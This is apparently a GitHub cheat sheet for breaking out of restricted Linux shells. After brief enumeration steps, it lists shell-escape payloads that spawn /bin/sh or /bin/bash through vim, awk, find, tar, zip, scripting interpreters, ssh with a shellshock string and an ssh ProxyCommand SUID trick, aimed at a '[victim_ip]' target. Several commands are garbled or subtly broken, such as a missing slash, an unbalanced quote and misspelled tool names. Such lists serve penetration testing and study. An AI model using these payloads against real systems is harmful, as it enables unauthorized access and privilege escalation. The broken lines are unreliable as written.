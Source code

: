 ### Test 
```
ssh user_name@[victim_ip] bash
```

### Enumarate 
- command 
  - cd
  - ls
  - echo

- operators 
  - *>*
  - *<*
  - *>>*
  - *|*

- programming languages
  - perl
  - ruby
  - python
  - php
  
- commands as root
  - sudo -l

- check files with suid

- check env variable
  - run env
  - printenv

- check shell
  - echo $SHELL
  
### Common Techniques
- '/' run /bin/sh or /bin/bash
- 'cp' copy /bin/sh or /bin/bash into your directory
- 'ftp' run ftp>!/bin/bash or ftp>!/bin/sh
- 'gdb' run gdb>!/bin/bash or gdb>!/bin/sh
- 'vim' run vim>!/bin/bash or vim>!/bin/sh
- 'rvim' run rvim>:python import os;os.system("bin/bash")
- 'scp' run scp>scp -S /path/your/script x y:
- 'awk' run awk>awk 'BEGIN {system("/bin/sh or /bin/bash")}
- 'find' run find>find / -name test -exec /bin/sh or /bin/bash \;

### Programming Languages Techniques
- 'except' run except> except spawn sh thne sh
- 'python' run python -c 'import os;os.system("/bin/sh")'
- 'php' run php>php -a then exec("sh -i");
- 'perl' run perl>perl -e 'exec"/bin/sh";'
- 'lua' run lua>os.execute('/bin/sh')
- *ruby* run ruby>exec "/bin/sh"

### Advance Techniques
- 'ssh' run ssh>ssh username@IP - t "/bin/sh" or "/bin/bash"
- 'ssh2' run ssh2>ssh username@IP -t "bash --noprofile"
- 'ssh3' run ssh3>ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
- 'ssh4' run ssh4>ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
- 'tar' run tar>tar cf /dev/null testfile --checkpoint=1 --checkpoint- action=exec=/bin/bash
- 'zip' run zip>zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
- 'pico' run pico>pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
- 'git' run git>git help status > you can run it then !/bin/bash

### PATH override


### References
- https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
